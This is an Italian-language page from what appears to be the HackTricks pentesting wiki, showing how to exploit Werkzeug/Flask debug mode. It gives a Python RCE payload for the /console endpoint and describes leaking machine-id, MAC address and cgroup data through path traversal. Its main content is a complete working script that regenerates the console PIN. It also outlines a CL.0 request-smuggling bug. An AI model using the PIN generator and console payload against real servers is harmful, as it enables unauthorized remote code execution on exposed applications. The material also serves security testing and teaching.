 # Werkzeug / Flask Debug

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Ottieni la prospettiva di un hacker sulle tue app web, rete e cloud

**Trova e segnala vulnerabilità critiche ed exploitabili con un reale impatto sul business.** Usa i nostri oltre 20 strumenti personalizzati per mappare la superficie di attacco, trovare problemi di sicurezza che ti permettano di elevare i privilegi e utilizzare exploit automatizzati per raccogliere prove essenziali, trasformando il tuo duro lavoro in report persuasivi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

Se il debug è attivo, potresti provare ad accedere a `/console` e ottenere RCE.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

Ci sono anche diversi exploit su internet come [questo](https://github.com/its-arun/Werkzeug-Debug-RCE) o uno in metasploit.

## Pin Protetto - Path Traversal

In alcune occasioni, l'endpoint **`/console`** sarà protetto da un pin. Se hai una **vulnerabilità di traversamento di file**, puoi leakare tutte le informazioni necessarie per generare quel pin.

### Exploit del PIN della Console Werkzeug

Forza una pagina di errore di debug nell'app per vedere questo:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
Un messaggio riguardante lo scenario "console bloccata" viene visualizzato quando si tenta di accedere all'interfaccia di debug di Werkzeug, indicando la necessità di un PIN per sbloccare la console. Si suggerisce di sfruttare il PIN della console analizzando l'algoritmo di generazione del PIN nel file di inizializzazione del debug di Werkzeug (`__init__.py`). Il meccanismo di generazione del PIN può essere studiato dal [**repository del codice sorgente di Werkzeug**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), anche se si consiglia di procurarsi il codice del server effettivo tramite una vulnerabilità di traversamento di file a causa di potenziali discrepanze di versione.

Per sfruttare il PIN della console, sono necessari due set di variabili, `probably_public_bits` e `private_bits`:

#### **`probably_public_bits`**

* **`username`**: Si riferisce all'utente che ha avviato la sessione Flask.
* **`modname`**: Di solito designato come `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Generalmente si risolve in **Flask**.
* **`getattr(mod, '__file__', None)`**: Rappresenta il percorso completo a `app.py` all'interno della directory Flask (ad es., `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Se `app.py` non è applicabile, **provare `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Recupera l'indirizzo MAC della macchina corrente, con `str(uuid.getnode())` che lo traduce in un formato decimale.
* Per **determinare l'indirizzo MAC del server**, è necessario identificare l'interfaccia di rete attiva utilizzata dall'app (ad es., `ens3`). In caso di incertezze, **leak `/proc/net/arp`** per trovare l'ID del dispositivo, quindi **estrarre l'indirizzo MAC** da **`/sys/class/net/<device id>/address`**.
*   La conversione di un indirizzo MAC esadecimale in decimale può essere eseguita come mostrato di seguito:

```python
# Esempio di indirizzo MAC: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: Concatenando i dati da `/etc/machine-id` o `/proc/sys/kernel/random/boot_id` con la prima riga di `/proc/self/cgroup` dopo l'ultima barra (`/`).

<details>

<summary>Codice per `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Dopo aver raccolto tutti i dati necessari, lo script di exploit può essere eseguito per generare il PIN della console Werkzeug:

Dopo aver raccolto tutti i dati necessari, lo script di exploit può essere eseguito per generare il PIN della console Werkzeug. Lo script utilizza i `probably_public_bits` e `private_bits` assemblati per creare un hash, che poi subisce ulteriori elaborazioni per produrre il PIN finale. Di seguito è riportato il codice Python per eseguire questo processo:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Questo script produce il PIN hashando i bit concatenati, aggiungendo sali specifici (`cookiesalt` e `pinsalt`), e formattando l'output. È importante notare che i valori effettivi per `probably_public_bits` e `private_bits` devono essere ottenuti accuratamente dal sistema target per garantire che il PIN generato corrisponda a quello atteso dalla console di Werkzeug.

{% hint style="success" %}
Se sei su una **vecchia versione** di Werkzeug, prova a cambiare l'**algoritmo di hashing in md5** invece di sha1.
{% endhint %}

## Caratteri Unicode di Werkzeug

Come osservato in [**questo problema**](https://github.com/pallets/werkzeug/issues/2833), Werkzeug non chiude una richiesta con caratteri Unicode negli header. E come spiegato in [**questo writeup**](https://mizu.re/post/twisty-python), questo potrebbe causare una vulnerabilità di CL.0 Request Smuggling.

Questo perché, in Werkzeug è possibile inviare alcuni caratteri **Unicode** e questo farà **rompere** il server. Tuttavia, se la connessione HTTP è stata creata con l'header **`Connection: keep-alive`**, il corpo della richiesta non verrà letto e la connessione rimarrà aperta, quindi il **corpo** della richiesta sarà trattato come la **prossima richiesta HTTP**.

## Sfruttamento Automatizzato

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Riferimenti

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Ottieni la prospettiva di un hacker sulle tue app web, rete e cloud

**Trova e segnala vulnerabilità critiche e sfruttabili con un reale impatto sul business.** Usa i nostri oltre 20 strumenti personalizzati per mappare la superficie di attacco, trovare problemi di sicurezza che ti permettano di elevare i privilegi e utilizzare exploit automatizzati per raccogliere prove essenziali, trasformando il tuo duro lavoro in report persuasivi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
